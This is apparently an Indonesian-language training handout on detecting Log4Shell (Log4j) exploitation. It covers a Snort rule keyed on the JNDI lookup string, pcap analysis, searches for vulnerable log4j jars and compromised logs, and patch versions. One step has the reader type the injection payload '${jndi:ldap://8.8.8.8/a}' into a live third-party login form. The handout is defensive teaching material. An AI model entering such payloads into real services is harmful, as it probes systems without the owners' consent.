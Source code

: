 # Percobaan Deteksi Log4J

## Uji Deteksi Pada Windows Defender
Windows Defender merupakan antivirus bawaan pada Windows. Uji deteksi ini menggambarkan kemampuan Windows Defender untuk mendeteksi file eksploitasi Log4j.

- Buka URL, copy isi dari file tersebut ke dalam notepad https://raw.githubusercontent.com/cyberkarta/weha/main/WebHacking/DES5-Log4J.md.
- Tunggu hingga Windows Defender bereaksi.

## Uji Deteksi pada Traffic Di Network
Uji deteksi ini menggambarkan kemampuan deteksi Log4j pada Next Gen Firewall, Intrusion Detection System, dan Intrusion Prevention System. 

- Install Snort
```sh
sudo apt install snort
```

- Buat rule di snort
```sh
sudo nano /etc/snort/rules/local.rules

# tambahkan di bagian paling bawah
alert tcp any any -> any any (msg: "Deteksi Log4Shell"; content: "${jndi:ldap://"; sid:202144228)
```

- Download pcap pada folder pcap
```
wget https://github.com/cyberkarta/training-seru/blob/main/Januari%202021/pcap/no_encrypt.pcap?raw=true -qO ga-enkripsi.pcap
```

- Deteksi dari pcap
```sh
sudo snort -c /etc/snort/snort.conf -A console -r ga-enkripsi.pcap -l . -k none 
```

Apakah terdeteksi?


## Uji Deteksi pada Traffic Terenkripsi di Network
Uji deteksi ini menggambarkan kemampuan deteksi Log4j pada Next Gen Firewall, Intrusion Detection System, dan Intrusion Prevention System. 

- Install tcpdump
```sh
sudo apt install tcpdump
```

- Packet capture
```sh
sudo tcpdump -i eth0 port 443 -w ./terenkripsi.pcap
```

- Buka koneksi https, ke Twitter misalkan. Pada kolom login coba masukkan.
```sh
${jndi:ldap://8.8.8.8/a}
```

- Deteksi dengan menggunakan snort
```sh
sudo snort -c /etc/snort/snort.conf -A console -r terenkripsi.pcap -l . -k none
```

Apakah terdeteksi?

## Menemukan Versi Log4j Vulnerable
Bisa menggunakan shell
```sh
sudo find / -name "log4j-core*.jar" 2>/dev/null | grep -E "log4j\-core\-(1\.[^0]|2\.[0-9][^0-9]|2\.1[0-6])"
```

Apakah kamu bisa menemukannya?

## Menemukan Bukti Eksploitasi pada Log4j
Cukup menggunakan shell
```sh
sudo grep -nr '${jndi:' /lokasi-folder-log/
```


## Saran untuk Defender/Ops/Developer
Log4j banyak digunakan, bahkan dalam skala terkecil sekalipun
https://github.com/NCSC-NL/log4shell/tree/main/software

Update ke versi terbaru
- **Java 8**: 2.17.1
- **Java 7**: 2.12.4
- **Java 6**: 2.3.2

Carilah nama software yang digunakan oleh perusahaan kamu, dan lihat list di bawah ini.
https://github.com/NCSC-NL/log4shell/tree/main/software

